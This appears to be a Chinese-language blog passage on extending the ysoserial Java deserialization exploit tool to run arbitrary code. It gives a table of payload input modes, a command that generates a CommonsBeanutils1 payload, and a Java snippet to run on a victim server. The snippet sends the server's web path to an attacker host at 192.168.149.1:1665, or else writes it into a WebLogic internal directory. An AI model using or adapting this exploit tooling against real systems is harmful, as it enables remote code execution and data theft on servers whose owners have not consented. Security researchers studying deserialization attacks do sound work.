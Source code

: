 



----

## 修改ysoserial使其支持任意代码执行



### 减小payload的体积
根据文章[缩小ysoserial payload体积的几个方法](https://xz.aliyun.com/t/6227)最大程度上减小生成payload的体积，对比结果直接减小一半多。

![image.png](https://raw.githubusercontent.com/SummerSec/Images/main/summersec//55u46er55ec/55u46er55ec.png)<br />


---


### 支持自定义方法，类
参考[ysoserial 工具改造（一）](https://www.yuque.com/tianxiadamutou/zcfd4v/ffd33r)和[使ysoserial支持执行自定义代码](https://gv7.me/articles/2019/enable-ysoserial-to-support-execution-of-custom-code/)方法将生成payload方法进行改造。<br />我这边添加了五种方式

| 序号 | 方式                            | 描述                                                    |
| ---- | ------------------------------- | ------------------------------------------------------- |
| 1    | command                         | 与原版相同                                              |
| 2    | “code:代码内容”                 | 代码量比较少时采用                                      |
| 3    | “codebase64:代码内容base64编码” | 防止代码中存在但引号，双引号，&等字符与控制台命令冲突。 |
| 4    | “codefile:代码文件路径”         | 代码量比较多时采用                                      |
| 5    | “classfile:class路径“           | 利用已生成好的 class 直接获取其字节码                   |

支持下面这些gadget<br />![image.png](https://raw.githubusercontent.com/SummerSec/Images/main/summersec//55u46er55ec/55u46er55ec.png)<br />

<a name="Cl1vV"></a>
#### codebase64、codefile:、code三种命令介绍

<br />三个命令使用方法参考，codefile:是code比较多的时候。
```http
java -jar dogeser-0.0.8-SNAPSHOT-all.jar CommonsBeanutils1 code:calc
```
```http
String HOST = "http://192.168.149.1:1665";
String WEB_PATH = System.getProperty("user.dir");

String str_url = HOST + "/?info=" + WEB_PATH;
try{
    //若目标能访问我们的服务器，则发送信息到服务器上
    java.net.URL url = new java.net.URL(str_url);
    java.net.URLConnection conn = url.openConnection();
    conn.connect();
    conn.getContent();
}catch(Exception e){
    //若目标不能访问我们的服务器，则将信息写到自己的web目录下info.log文件中
    String webPath = WEB_PATH + "/servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/info.log";
    try {
        java.io.FileOutputStream f1 = new java.io.FileOutputStream(webPath);
        f1.write(WEB_PATH.getBytes());
        f1.close();
    } catch (Exception e1) {
        e1.printStackTrace();
    }
```